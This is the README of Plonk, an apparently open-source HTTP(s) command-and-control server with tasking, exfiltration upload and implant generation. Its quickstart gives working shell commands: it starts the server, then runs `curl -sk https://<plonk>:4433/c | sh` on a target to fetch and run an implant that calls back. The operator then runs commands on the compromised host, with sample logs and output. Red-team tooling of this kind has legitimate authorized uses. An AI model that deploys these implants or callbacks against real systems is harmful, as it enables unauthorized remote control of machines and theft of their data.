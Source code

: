 Plonk
=====
Plonk is a no-frills HTTP(s)-based C2 server, intended to be very easy to set
up and use but also powerful enough for real, if simple, ops.

### Features
1. Very simple [protocol](./doc/protocol.md) which handles...
   1. [Tasking](./doc/protocol.md#tasking-t)
   2. [Task Output](./doc/protocol.md#output-o)
   3. [Exfil Upload](./doc/protocol.md#exfil-p)
   4. [Implant Generation](./doc/protocol.md#implant-generation-c)
   5. [Static File Serving](./doc/protocol.md#static-files-f)
2. Fairly simple [setup](#singleplayer-quickstart) and
   [configuration](./doc/config.md)
3. Multiplayer-friendly, with reasonably simple
   [setup](./doc/multiplayer.md)
4. [TLS](./doc/tls.md) by default, with [Let's Encrypt](https://letsencrypt.org)
   or a self-signed certificate.  Or both.
5. More than zero [documentation](./doc)

Please see the [changelog](./doc/changelog.md) for a log of changes.

Singleplayer Quickstart
-----------------------
Make sure you have [Go](https://go.dev/doc/install) installed.

```sh
# Install Plonk itself.  This can be done on another host, so long as plonk
# is in PATH on the server or the rest of this section is adjusted accordingly.
go install github.com/magisterquis/plonk@v0.0.1-beta.1
# Did it work?
plonk -v

# Start it going
nohup plonk -server -https-address 0.0.0.0:4433 >/dev/null 2>&1 &
# Or get rid of -https-address and add -letsencrypt-domain for better TLS if a
# domain name is pointed at Plonk.

# Did it work?
ls "$HOME/plonk.d/"                 # Populated directory exists?
# Should see:
#     files  log.json  op.sock  state.json
tail "$HOME/plonk.d/log.json"       # Log looks ok?  tail -f is also neat.
# Log will tell you everything's happy:
#     {"time":"2023-12-29T22:45:27.206057004Z","level":"INFO",
#     "msg":"Server ready","dirname":"/home/h4x/plonk.d"}
curl -svk https://127.0.0.1:4433/c  # Implant generation works?
# Should see a shell script with a couple of
#     curl -k -pinnedpubkey "sha256//..."
# lines, calling back to 127.0.0.1.

# Get a callback
curl -sk https://<plonk>:4433/c | sh  # On target and with a better URL,
                                      # of course.  
                                      # Don't use -k if Plonk was started with
                                      # -letsencrypt-domain
tail -n2 "$HOME/plonk.d/log.json"     # Get the callback?  May need more -n.
# Log should say an implant was generated and something called back, like:
#    {"time":"2023-12-29T22:52:02.235811943Z","level":"INFO",
#     "msg":"Implant generation","parameters":{
      "PubkeyFP":"1oOI5fF7U7bLSVythHfk0COUNvymV0aoWfTT1puBfIk=","RandN":"57i",
#     "URL":"https://[REDACTED]:4433"},"sni":"","host":"[REDACTED]:4433",
#     "method":"GET","remote_address":"[REDACTED]:32260","url":"/c"}
#    {"time":"2023-12-29T22:52:02.280309985Z","level":"INFO",
#     "msg":"New implant","id":"57i-target.my.domain-9924"}

# Interact with the target
plonk  # Connect to the server as an operator
# A nice welcome message should appear
#     ___________________________
#    /     Welcome to Plonk!     \
#    \ Try ,help to get started. /
#     ---------------------------
#            \   ^__^
#             \  (oo)\_______
#                (__)\       )\/\
#                    ||----w |
#                    ||     ||
#    2023/12/29 22:53:26 [OPERATOR] Connected: h4x0r (cnum:1)
#    (plonk)>
,list  # See what's called back
# Should be the same ID as in the log output from above:
#    ID                         From        Last Seen
#    --                         ----        ---------
#    57i-target.my.domain-9924  [REDACTED]  2023-12-29T22:54:42Z (4.939s)
,seti 57i-target.my.domain-9924 # Interact with our target, but with the right ID
# Timestamps are handy to work out what happens and when, turns out.
#    2023/12/29 22:58:37 Interacting with 57i-target.my.domain-9924
#    2023/12/29 22:58:37 Use ,logs to return to watching Plonk's logs
ps awwwfux  # Run a command on target
# Plonk is HTTP-based; we get notified when the task is queued, send, and run
#    2023/12/29 22:58:42 [TASKQ] Task queued by h4x0r for 57i-target.my.domain-9924 (qlen 1)
#    ps awwwfux
#    2023/12/29 22:58:43 [CALLBACK] Sent task to 57i-target.my.domain-9924 (qlen 0):
#    ps awwwfux
#    2023/12/29 22:58:43 [OUTPUT] From 57i-target.my.domain-9924
#    USER       PID %CPU %MEM   VSZ   RSS TT  STAT   STARTED       TIME COMMAND
#    root         1  0.0  0.0   948   104 ??  I      Sat01AM    0:01.01 /sbin/init
#    root     30130  0.0  0.0  1112    24 ??  Ip     Sat01AM    0:00.00 - /sbin/slaacd
#    _slaacd  83001  0.0  0.0  1108    24 ??  Ip     Sat01AM    0:00.00 |-- slaacd: engine (slaacd)
#    _slaacd  55365  0.0  0.0  1128    24 ??  IpU    Sat01AM    0:00.00 `-- slaacd: frontend (slaacd)
#    ...
```

Directory
---------
Plonk's directory (settable with `-dir` at runtime or
[baked-inable](./doc/config.md#compile-time-settable-defaults) with
`-ldflags "-X main.DefaultDir"` at compile time) is where it keeps all of the
files it needs, i.e.:

File/Subdirectory | Description
------------------|------------
`exfil/`          | Exfil sent to [`/p`](./protocol.md#exfil-p)
`files/`          | Static files, accessible via [`/f`](./doc/protocol.md#static-files-f)
`implant.tmpl`    | Optional [implant template](./doc/protocol.md#implant-generation-c)
`index.html`      | Optional default [response body](./doc/config.md#indexhtml)
`log.json`        | Server logs
`op.sock`         | Operator Unix socket, used by Plonk the client
`sate.json`       | Server's persistent state
